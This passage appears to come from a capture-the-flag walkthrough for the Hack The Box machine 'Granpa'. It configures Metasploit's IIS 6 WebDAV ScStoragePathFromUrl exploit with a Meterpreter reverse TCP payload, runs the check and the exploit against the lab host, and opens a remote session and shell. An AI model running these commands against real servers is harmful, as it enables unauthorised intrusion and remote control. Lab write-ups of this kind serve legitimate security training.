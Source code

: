 ```
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.8       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86
```

The only mandatory option that hasn't been set is __RHOSTS__, and corresponds to the target host (victim). So let's set it to the IP address of the same machine we scanned with the previous tools:
```
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOSTS 10.10.10.14
RHOSTS => 10.10.10.14
```

### Run the exploit and gain access to the system
A really interesting feature of Metasploit modules is that some of them have a `check` function to verify if the target host is vulnerable:
```
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > check
[+] 10.10.10.14:80 - The target is vulnerable.
```

As the host seems to be vulnerable to this exploit, let's proceed to run it in order to gain access to the server:
```
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit

[*] Started reverse TCP handler on 10.10.14.8:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (176195 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.14:1030) at 2020-09-20 12:49:01 -0400
```

Boom, we pwned the system! Get some info from it using `sysinfo` and then open a regular shell:
```
meterpreter > sysinfo
Computer        : GRANPA
OS              : Windows .NET Server (5.2 Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows

meterpreter > shell

[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 2900 created.
```